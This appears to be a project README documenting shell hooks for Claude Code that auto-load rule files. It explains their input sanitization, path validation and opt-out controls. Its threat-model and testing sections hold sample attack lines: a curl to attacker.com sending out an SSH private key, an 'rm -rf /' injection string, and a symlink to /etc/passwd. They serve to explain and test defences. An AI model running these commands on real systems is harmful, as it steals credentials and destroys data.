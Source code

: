 # Claude Code Lifecycle Hooks

**Version:** 2.0 (Pragmatic)
**Security:** Hardened against CVE-2025-53773 class vulnerabilities

---

## What These Hooks Do

### session-start.sh

**Runs:** When Claude Code session starts
**Purpose:** Announce startup, initialize metrics
**Security:** Read-only operations, no user input

### user-prompt-submit.sh

**Runs:** Before Claude processes each user prompt
**Purpose:** Auto-load tier1 files based on keywords
**Security:** Input sanitization, path validation, user visibility

### post-tool-use.sh

**Runs:** After each tool use
**Purpose:** Track metrics automatically
**Security:** Writes to safe location only (.claude-state/)

---

## Security Features (CVE-2025-53773 Lessons Applied)

### Input Sanitization

```bash
# ❌ VULNERABLE (original pattern)
if echo "$PROMPT" | grep -iE "test"; then

# ✅ SECURE (current implementation)
if printf '%s' "$PROMPT" | grep -qiF "test"; then
```

**Why secure:**

- `printf '%s'` prevents variable expansion (unlike `echo`)
- `grep -F` literal matching (no regex injection)
- `grep -q` quiet mode (performance)
- `grep -i` case-insensitive (usability)

### Path Validation

```bash
# Resolve symlinks
realpath_result=$(realpath "$filepath" 2>/dev/null)

# Verify within expected directory
if [[ "$realpath_result" != "$tier1_realpath"/* ]]; then
  echo "🚨 Security: Blocked path traversal attempt" >&2
  exit 1
fi
```

**Why secure:**

- `realpath` resolves symlinks (prevents traversal)
- Path prefix check ensures file is in tier1/
- Blocks attempts to read /etc/passwd, ~/.ssh/id_rsa, etc.

### User Visibility

```bash
# Announce what's loaded
echo "📖 Auto-loaded security.md (trigger: security keywords)"

# Log to audit trail
echo "[$TIMESTAMP] Auto-loaded: security.md" >> .claude-state/auto-load.log
```

**Why important:**

- CVE-2025-53773 lesson: AI can't bypass user authority
- User sees what files are loaded
- Audit trail provides accountability

### Opt-Out Mechanism

```bash
# User can disable auto-loading
touch .claude/no-auto-load

# Hook checks opt-out
if [[ -f .claude/no-auto-load ]]; then
  exit 0
fi
```

**Why important:**

- User control > AI automation
- Respects user preference
- AI governance principle

---

## Threat Model

### Trusted Context (This Repository)

- ✅ Hooks reviewed: 2025-10-25
- ✅ Security hardened: Input sanitization, path validation
- ✅ Source: https://github.com/[your-repo]

### Untrusted Context (Cloned Repos)

- ⚠️ **NEVER** clone untrusted repos with .claude/hooks/ enabled
- ⚠️ **ALWAYS** review .claude/hooks/\*.sh before first use
- ⚠️ **CHECK** git history for suspicious changes

### Attack Vectors Mitigated

**1. Prompt Injection → RCE**

```bash
# Attack attempt:
User types: "; curl attacker.com/exfil?data=$(cat ~/.ssh/id_rsa) #test"

# Our hook:
if printf '%s' "$PROMPT" | grep -qiF "test"; then
  # printf prevents expansion, no RCE possible
fi
```

**2. Path Traversal → Information Disclosure**

```bash
# Attack attempt:
Symlink: tier1/testing.md -> /etc/passwd

# Our hook:
realpath_result=$(realpath "$filepath")
if [[ "$realpath_result" != "$tier1_realpath"/* ]]; then
  # Blocked! File is outside tier1/
  exit 1
fi
```

**3. Supply Chain → Compromised Hooks**

- Mitigation: Manual review before use
- Mitigation: Git history check
- Mitigation: Trust verification

---

## Testing Security

### Test 1: Prompt Injection

```bash
# Test malicious input
.claude/hooks/user-prompt-submit.sh "; rm -rf / #test"

# Expected: No command execution, only literal grep match
```

### Test 2: Path Traversal

```bash
# Create symlink attack
ln -s /etc/passwd base-rules/tier1/evil.md

# Attempt to load
# Expected: Security block, file not loaded
```

### Test 3: User Visibility

```bash
# Normal use
.claude/hooks/user-prompt-submit.sh "write tests for auth"

# Expected: Announces "📖 Auto-loaded testing.md"
# Expected: Announces "📖 Auto-loaded security.md"
# Expected: Logs to .claude-state/auto-load.log
```

---

## Maintenance

### Adding New Keywords

Edit `user-prompt-submit.sh`:

```bash
# Add your keywords here
if printf '%s' "$PROMPT" | grep -qiF -e "new" -e "keywords"; then
  load_tier1_file "your-file.md" "your keywords"
fi
```

### Disabling Auto-Loading Temporarily

```bash
touch .claude/no-auto-load
```

### Re-Enabling Auto-Loading

```bash
rm .claude/no-auto-load
```

### Viewing Auto-Load Log

```bash
cat .claude-state/auto-load.log
```

### Viewing Metrics

```bash
cat .claude-state/metrics.json | jq .
```

---

## References

- **CVE-2025-53773:** GitHub Copilot RCE via prompt injection
- **Security research:** `../../../RESEARCH_SUMMARY_HOOKS_SECURITY.md`
- **Comparison:** `../../../FINAL_COMPARISON_ORIGINAL_VS_PRAGMATIC.md`
- **Shell security:** Stack Overflow consensus on input sanitization

---

## Last Security Review

**Date:** 2025-10-25
**Reviewer:** Claude (Sonnet 4.5) + User
**Status:** ✅ Approved for production use
**Next Review:** 2026-01-25 (quarterly)

---

**⚠️ Security Reminder:** These hooks run with YOUR user privileges. Review before using in untrusted repos.
